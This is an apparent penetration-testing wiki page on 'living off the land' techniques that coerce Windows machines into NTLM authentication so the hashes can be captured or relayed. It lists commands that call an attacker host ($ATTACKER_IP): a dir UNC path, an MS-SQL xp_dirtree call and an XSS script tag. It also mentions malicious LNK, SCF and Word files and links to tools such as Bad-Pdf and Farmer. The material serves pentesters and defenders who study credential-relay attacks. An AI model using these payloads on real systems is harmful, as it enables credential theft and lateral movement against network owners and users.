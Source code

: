 # 🛠️ Living off the land

Using tools already there, command execution, code execution, to create trafic and capture hashes or relay authentications.

An attacker able to execute code or commands on a machine can make it authenticate somewhere in many ways.

| Type | Command/code | Outgoing protocol |
| :--- | :--- | :--- |
| DOS/Powershell | `dir \\$ATTACKER_IP\unicorn` | SMB |
| from a file explorer | `\\$ATTACKER_IP\something` | SMB |
| from a browser | `http://ATTACKER_IP/` | HTTP |
| MS-SQL | `EXEC master.sys.xp_dirtree '\\$ATTACKER_IP\unicorn',1, 1` | SMB |

SCF, LNK, .URL etc.



XSS \(like `<script>language='javascript' src='\\$ATTACKER_IP\something'</script>`\)

Other attacks that allow to edit the website content and make browsers request the attacker

SMB trap etc. HTTP server sends 302 redirect to file://attacker\_ip/something

[https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)



.XML, IncludePicture Field \(Word\), hyperlink



[https://github.com/3gstudent/Worse-PDF](https://github.com/3gstudent/Worse-PDF) [https://github.com/deepzec/Bad-Pdf](https://github.com/deepzec/Bad-Pdf)



[https://github.com/Gl3bGl4z/All\_NTLM\_leak](https://github.com/Gl3bGl4z/All_NTLM_leak)

[https://mgp25.com/research/infosec/Leaking-NTLM-hashes/](https://mgp25.com/research/infosec/Leaking-NTLM-hashes/)

[https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes\#office](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes#office)

[https://logrhythm.com/blog/what-are-living-off-the-land-attacks/](https://logrhythm.com/blog/what-are-living-off-the-land-attacks/)

[https://www.ired.team/offensive-security/initial-access](https://www.ired.team/offensive-security/initial-access)

[https://github.com/mdsecactivebreach/Farmer](https://github.com/mdsecactivebreach/Farmer)

